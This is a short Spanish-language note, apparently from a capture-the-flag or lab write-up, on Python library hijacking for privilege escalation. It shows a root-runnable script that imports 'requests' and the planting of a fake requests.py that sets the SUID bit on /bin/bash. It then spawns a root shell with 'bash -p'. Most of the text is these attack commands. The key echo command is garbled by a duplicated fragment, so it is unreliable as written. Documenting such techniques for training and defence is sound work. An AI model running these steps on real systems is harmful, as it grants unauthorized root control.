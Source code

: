 En términos generales, **"Library Hijacking"** se basa en **inyectar o sustituir una biblioteca legítima** con una versión modificada por el atacante, de forma que el sistema o aplicación con privilegios elevados cargue y ejecute esa biblioteca manipulada.

![[Pasted image 20250616183814.png]]

El usuario **iker** puede ejecutar como **root** el script **geo_ip.py**. El script contiene el siguiente código:

```
import requests; 
ip = input('Introduce la direccion IP que quieras geolocalizar: ')
respuesta = requests.get(f'http://ip-api.com/json/{ip}')
data = respuesta.json()
print(data)
```
Vemos que importa la librería **requests**, la cual intentaremos secuestrar de la siguiente forma:

```
echo "import os;os.syecho "import os;os.system('chmod u+s /bin/bash')" > requests.py
```

Creamos un script en python con el mismo nombre de la librería en uso en **geo_ip.py**, de manera que este se ejecutará como root y colocara privilegios ***SUID*** a la ****/bin/bash***.

Ahora, ejecutaremos el script:

```
sudo /usr/bin/python3 /home/iker/geo_ip.py
```

Para finalizar, ejecutamos la bash con privilegios:

```
/bin/bash -p
```
